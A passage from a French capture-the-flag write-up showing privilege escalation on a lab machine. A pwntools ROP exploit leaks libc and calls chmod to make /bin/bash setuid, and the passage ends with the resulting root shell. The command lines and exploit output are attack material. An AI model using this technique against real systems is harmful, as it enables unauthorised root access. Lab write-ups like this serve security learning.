 Avant l'exécution je créé un lien symbolique *zR* pointant vers */bin/bash* :  

```plain
Joxter@moee:~$ ln -s /bin/bash zR 
Joxter@moee:~$ ls -l 
total 4 
-rw-r--r-- 1 root   root   308 Nov 20  2020 flag2.txt 
lrwxrwxrwx 1 Joxter Joxter   9 Jan 29 15:22 zR -> /bin/bash 
Joxter@moee:~$ ls -l /bin/bash  
-rwxr-xr-x 1 root root 1029624 Mar 25  2019 /bin/bash
```

Utilisation de mon exploit avec *pwntools* qui fait sa magie :  

```plain
$ python exploit.py  
[+] Connecting to 192.168.56.19 on port 22: Done 
[*] Joxter@192.168.56.19: 
    Distro    Unknown  
    OS:       linux 
    Arch:     amd64 
    Version:  3.16.0 
    ASLR:     Enabled 
[+] Starting remote process bytearray(b'/home/Boe/ropit') on 192.168.56.19: pid 15518 
[*] '/tmp/chall/libc.so.6' 
    Arch:     amd64-64-little 
    RELRO:    Partial RELRO 
    Stack:    Canary found 
    NX:       NX enabled 
    PIE:      PIE enabled 
[*] '/tmp/ropit' 
    Arch:     amd64-64-little 
    RELRO:    Partial RELRO 
    Stack:    No canary found 
    NX:       NX enabled 
    PIE:      No PIE (0x400000) 
[*] Loaded 14 cached gadgets for '/tmp/ropit' 
[*] puts plt: 0x400430 
[*] puts got: 0x601018 
[*] gets plt: 0x400430 
[*] pop rdi; ret  gadget: 0x4005e3 
[*] pop rsi; pop r15; ret  gadget: 0x4005e1 
[*] Size of ROP: 1128 
Welcome to Exploitation&Pwning world back day's from Moomin's time . 

Let's see what you can use to get the root of this box. 
[*] Leaked LIBC address,  puts: 0x7f51994ca990 
[*] LIBC base @ 0x7f519945f000 
[*] chmod 0x7f519953a800
```

Et c'est le BUT !  

```plain
Joxter@moee:~$ ls -l /bin/bash  
-rwsr-sr-x 1 root root 1029624 Mar 25  2019 /bin/bash 
Joxter@moee:~$ /bin/bash -p 
bash-4.3# id 
uid=1000(Joxter) gid=1000(Joxter) euid=0(root) egid=0(root) groups=0(root),1000(Joxter),1002(devsec) 
bash-4.3# cd /root 
bash-4.3# ls -al 
total 48 
drwx------  3 root root 4096 Nov 28  2020 . 
drwxr-xr-x 22 root root 4096 Nov 11  2020 .. 
lrwxrwxrwx  1 root root    9 Nov 20  2020 .bash_history -> /dev/null 
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc 
```